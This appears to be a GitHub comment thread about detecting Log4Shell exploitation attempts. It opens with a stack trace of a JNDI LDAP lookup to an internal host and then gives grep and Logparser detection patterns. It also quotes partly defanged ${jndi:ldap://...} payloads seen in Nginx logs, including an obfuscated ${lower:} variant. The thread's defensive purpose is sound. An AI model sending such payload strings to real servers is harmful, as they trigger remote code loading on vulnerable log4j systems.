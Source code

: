 http-nio-80-exec-13 WARN Error looking up JNDI resource [ldap://192.168.1.15:1337/e]. javax.naming.NamingException [Root exception is java.lang.ClassNotFoundException: org.apache.commons.beanutils.BeanComparator]; remaining name 'e'
	at java.naming/com.sun.jndi.ldap.Obj.deserializeObject(Obj.java:531)
	at java.naming/com.sun.jndi.ldap.Obj.decodeObject(Obj.java:237)
	at java.naming/com.sun.jndi.ldap.LdapCtx.c_lookup(LdapCtx.java:1051)
	at java.naming/com.sun.jndi.toolkit.ctx.ComponentContext.p_lookup(ComponentContext.java:542)
	at java.naming/com.sun.jndi.toolkit.ctx.PartialCompositeContext.lookup(PartialCompositeContext.java:177)
	at java.naming/com.sun.jndi.toolkit.url.GenericURLContext.lookup(GenericURLContext.java:207)
	at java.naming/com.sun.jndi.url.ldap.ldapURLContext.lookup(ldapURLContext.java:94)
	at java.naming/javax.naming.InitialContext.lookup(InitialContext.java:409)
	at org.apache.logging.log4j.core.net.JndiManager.lookup(JndiManager.java:128)
	at org.apache.logging.log4j.core.lookup.JndiLookup.lookup(JndiLookup.java:55)
	at org.apache.logging.log4j.core.lookup.Interpolator.lookup(Interpolator.java:159)
	at org.apache.logging.log4j.core.lookup.StrSubstitutor.resolveVariable(StrSubstitutor.java:1046)
	...
@knoll-pointer
knoll-pointer commented 22 hours ago
sudo egrep -i -r '${jndi:(ldap[s]?|rmi|dns):/[^\n]+' /var/log

If it comes across /var/log/lastlog (a sparse binary file with no line breaks, which can contain millions of null/zero bytes), then egrep will attempt to load the whole file into memory and cause your server to run out of memory (if you are running it as root/sudo).

I recommend adding -I (capital i) to ignore binary files:
sudo egrep -I -i -r '${jndi:(ldap[s]?|rmi|dns):/[^\n]+' /var/log

@withoutdanger
withoutdanger commented 20 hours ago
@Neo23x0

Good afternoon.
Thanks for your work.

I also saw this format in the Nginx logs:

"GET /$%7Bjndi:ldap://(do_not_use)http443path.kryptoslogic-cve-2021-44228(do_not_use).com/http443path%7D HTTP/1.1"
${jndi:${lower:l}${lower:d}a${lower:p}://(do_not_use)world80.log4j.bin${upper:a}ryedge(do_not_use).io:80/callback}"

(do_not_use) - I added so that you can not go directly to the link
Please update the script.

@lizardlabs
lizardlabs commented 17 hours ago • 
Hi to all,

just wanted to add that Microsoft Logparser command can be used to detect potential log4shell exploits from text based *.log located in c:\logs\ folder and its subfolders (change the parameters as needed):

logparser -i:TEXTLINE -recurse:-1 "select TOP 1000 * FROM 'C:\logs\*.log' WHERE Text like'%$%{%j%n%d%i%:%'"
